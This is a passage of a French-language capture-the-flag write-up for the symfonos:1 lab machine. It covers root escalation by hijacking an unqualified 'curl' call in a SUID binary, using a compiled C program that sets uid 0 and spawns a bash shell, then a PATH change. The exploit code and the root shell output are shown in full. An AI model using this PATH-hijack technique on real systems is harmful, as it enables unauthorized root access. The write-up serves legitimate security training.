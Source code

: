 Il ne semble qu'appeller `curl` :

```bash
helios@symfonos:~$ strings /opt/statuscheck
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
curl -I H
http://lH
ocalhostH
AWAVA
AUATL
--- snip ---
```

On va détourner l'exécution en compilant un programme nommé `curl` et en le mettant sur le `PATH` :

```c
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        setregid(0, 0);
        system("/bin/bash -p");
}
```

Et c'est dans la poche :

```bash
helios@symfonos:~$ export PATH=.:$PATH
helios@symfonos:~$ gcc -o curl curl.c
helios@symfonos:~$ /opt/statuscheck
root@symfonos:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),1000(helios)
root@symfonos:~# cd /root
root@symfonos:/root# ls
proof.txt
root@symfonos:/root# cat proof.txt 

        Congrats on rooting symfonos:1!

                 \ __
--==/////////////[})))==*
                 / \ '          ,|
                    `\`\      //|                             ,|
                      \ `\  //,/'                           -~ |
   )             _-~~~\  |/ / |'|                       _-~  / ,
  ((            /' )   | \ / /'/                    _-~   _/_-~|
 (((            ;  /`  ' )/ /''                 _ -~     _-~ ,/'
 ) ))           `~~\   `\\/'/|'           __--~~__--\ _-~  _/, 
((( ))            / ~~    \ /~      __--~~  --~~  __/~  _-~ /
 ((\~\           |    )   | '      /        __--~~  \-~~ _-~
    `\(\    __--(   _/    |'\     /     --~~   __--~' _-~ ~|
     (  ((~~   __-~        \~\   /     ___---~~  ~~\~~__--~ 
      ~~\~~~~~~   `\-~      \~\ /           __--~~~'~~/
                   ;\ __.-~  ~-/      ~~~~~__\__---~~ _..--._
                   ;;;;;;;;'  /      ---~~~/_.-----.-~  _.._ ~\     
```